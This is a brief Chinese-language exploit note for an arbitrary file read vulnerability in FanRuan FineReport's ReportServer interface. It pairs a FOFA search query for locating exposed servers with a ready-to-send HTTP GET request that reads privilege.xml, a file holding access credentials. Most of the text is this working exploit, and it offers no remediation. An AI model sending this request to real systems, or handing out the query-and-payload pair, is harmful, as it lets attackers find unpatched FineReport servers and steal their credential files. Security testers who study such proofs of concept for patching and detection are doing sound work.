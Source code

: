 **fofa**

```
app="帆软-FineReport"
```

**一、漏洞简述**

FineReport是由帆软自主研发的一款纯Java编写的报表软件产品，集数据展示（报表）和数据录入(表单)功能于一身，能够制作复杂的报表，操作简单易用。针对软件开发商和系统集成商，用于快速构建企业信息系统的中国式Web报表软件。其接口ReportServer存在任意文件读取漏洞，攻击者可通过该漏洞获取系统敏感文件。

**二、漏洞检测poc**

```yaml
GET /WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close


```

